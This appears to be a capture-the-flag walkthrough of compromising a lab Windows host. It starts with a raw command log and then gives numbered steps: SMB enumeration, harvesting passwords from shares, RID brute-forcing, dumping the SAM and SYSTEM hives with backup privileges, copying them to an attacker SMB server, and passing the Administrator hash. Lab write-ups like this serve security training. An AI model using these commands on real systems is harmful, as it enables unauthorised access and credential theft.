 
```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
--------------------------------------------------------------------
cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
--------------------------------------------------------------------
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
----------------------------------------------
user.txt: 1d12de2c4162688e2ee9ba080c707d96
-----------------------------------------------------
reg save hklm\system c:\Temp\system


copy C:\Temp\sam \\10.10.16.53\share\sam
copy C:\Temp\system \\10.10.16.53\share\system

evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```


## **Initial Access**
1. **Enumerate SMB Shares**:
   - Used `smbclient` to list accessible shares:
     ```bash
     smbclient -L \\\\10.10.11.35 -U "anonymous"
     ```
   - Found the `HR` share and accessed it:
     ```bash
     smbclient \\\\10.10.11.35\\HR -U "anonymous"
     ```

2. **Found Credentials**:
   - Discovered a file containing credentials:
     ```
     Cicada$M6Corpb*@Lp#nZp!8
     ```

3. **Enumerate Users**:
   - Used `nxc` to enumerate users via RID brute-forcing:
     ```bash
     nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
     ```
   - Identified users like `michael.wrightson`, `david.orelious`, and `emily.oscars`.

4. **Authenticate as `michael.wrightson`**:
   - Used the found credentials to authenticate:
     ```bash
     nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
     ```

5. **Explore SMB Shares**:
   - Found additional shares and accessed the `dev` share:
     ```bash
     smbclient \\\\10.10.11.35\\dev -U 'michael.wrightson%'Cicada$M6Corpb*@Lp#nZp!8'
     ```

6. **Found New Credentials**:
   - Discovered credentials for `emily.oscars`:
     ```
     emily.oscars:Q!3@Lp#M6b*7t*Vt
     ```

7. **Authenticate as `emily.oscars`**:
   - Used `evil-winrm` to authenticate:
     ```bash
     evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
     ```


## **Privilege Escalation**
1. **Check Privileges**:
   - Ran `whoami /priv` and found `SeBackupPrivilege` and `SeRestorePrivilege` enabled.

2. **Dump SAM and SYSTEM Hives**:
   - Created a `Temp` folder and dumped the hives:
     ```powershell
     cd c:\
     mkdir Temp
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system
     ```

3. **Transfer Files Using SMB Server**:
   - Set up an SMB server on the attacking machine:
     ```bash
     sudo impacket-smbserver share $(pwd) -smb2support
     ```
   - Copied the files to the SMB share from the target machine:
     ```powershell
     copy C:\Temp\sam \\<Your_IP>\share\sam
     copy C:\Temp\system \\<Your_IP>\share\system
     ```

4. **Extract NTLM Hashes**:
   - Used `pypykatz` to extract the hashes:
     ```bash
     pypykatz registry --sam sam --system system
     ```
   - Found the NTLM hash for the `Administrator`:
     ```
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
     ```

5. **Authenticate as `Administrator`**:
   - Used `evil-winrm` with the NTLM hash:
     ```bash
     evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
     ```

6. **Retrieve the Root Flag**:
   - Navigated to the `Administrator` desktop and read the `root.txt` file:
     ```powershell
     cd C:\Users\Administrator\Desktop
     type root.txt
     ```

